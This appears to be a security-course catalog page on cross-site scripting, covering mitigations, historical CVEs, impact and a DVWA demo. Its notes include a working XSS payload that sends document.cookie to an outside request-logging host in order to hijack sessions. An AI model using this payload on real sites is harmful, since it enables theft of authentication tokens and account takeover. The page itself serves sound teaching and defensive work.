 ```yaml
---
layout: catalog
title: Cross-Site Scripting (XSS)
tags: web
---
```


Cross-Site Scripting (XSS)
=========================

Description
-----------

See [CWE-79](http://cwe.mitre.org/data/definitions/79.html)

Mitigations
-----------

* Sanitization is your best option here. Converting HTML characters to their escaped form (e.g. &lt; to &amp;lt;) is a bare minimum. Only allowing some input is a good idea, but sometimes you want certain characters to be allowed and escaping allows for that flexibility.
* _However!_ Knowing which characters to escape is very tricky. I strongly recommend using an external library, and not just rolling your own. Check out how complicated it is at [OWASP's XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet).

Historical Examples
-------------------
* A good discussion of XSS, including some fascinating historical exploits, is on the [Ruby on Rails security page](http://guides.rubyonrails.org/security.html#cross-site-scripting-xss).
* Be sure to test your XSS mitigations, as they can easily become ineffective, as what happened in Apache Tomcat in [CVE-2009-0781](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-0781). See their subtle [fix](http://svn.apache.org/viewvc?view=revision&revision=750928).
 
Notes
-----

* Widely considered among the most dangerous vulnerabilities today. XSS vulnerabilities have affected GMail, Twitter, Facebook, Hotmail, Yahoo Mail, and just about every other major web application out there.
* Note that XSS does not always have to be done inside &lt;script&gt; tags, it can be done in CSS injection, inside image metadata, and in many other situations.
* Executing Javascript on another person's machine can result in a vast number of exploits. In every case, the asset of cross-site scripting is the user interface. The two main exploits of XSS are:
 * _web defacement_, where you can modify the page to have an extra form asking for someone's password, which gets sent off to a remote site. A user would not be able to tell that they just sent their password to a malicious site.
 * _session hijacking:_ where you steal the authentication token from the victim's cookie and use it to log in. For example:

 {% highlight html %}
  <script>
  x = new XMLHttpRequest();
  x.open("GET", "http://requestb.in/13x2ec31?s=" + document.cookie, true);
  x.send();
  </script>
 {% endhighlight %}

  The above snippet is a silent AJAX call to a remote site, which an attacker then monitors anonymously, stealing your authentication token. Having the authentication token gives the attacker the ability to log in as the victim (as long as they stay logged in). From there, the attacker can can reset passwords, set up other accounts, set up permanent scripts, anything.
  
Running the Demo
----------------
For this one you will need an installation of [DVWA](http://www.dvwa.co.uk/), which your instructor can provide for you.

